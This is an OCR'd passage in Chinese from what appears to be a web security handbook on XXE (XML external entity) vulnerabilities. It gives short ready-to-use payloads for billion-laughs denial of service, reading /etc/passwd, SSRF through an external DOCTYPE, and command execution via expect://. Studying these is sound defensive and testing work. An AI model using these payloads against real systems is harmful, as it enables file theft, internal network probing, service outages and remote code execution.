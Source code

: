 ### 4.10.3. XXE

当允许引用外部实体时，可通过构造恶意的XML内容，导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等后果。一般的XXE攻击，只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，但是也可以通过Blind XXE的方式实现攻击。

### 4.10.4. 攻击方式

#### 4.10.4.1. 拒绝服务攻击

```
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
]>
<data>&a2;</data>
```

若解析过程非常缓慢，则表示测试成功，目标站点可能有拒绝服务漏洞。 具体攻击可使用更多层的迭代或递归，也可引用巨大的外部实体，以实现攻击的效果。

#### 4.10.4.2. 文件读取

```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

#### 4.10.4.3. SSRF

```
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/" [
<!ELEMENT data (#ANY)>
]>
<data>4</data>
```

#### 4.10.4.4. RCE

```
<?xml version="1.0"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<catalog>
   <core id="test101">
      <description>&xxe;</description>
   </core>
</catalog>
```
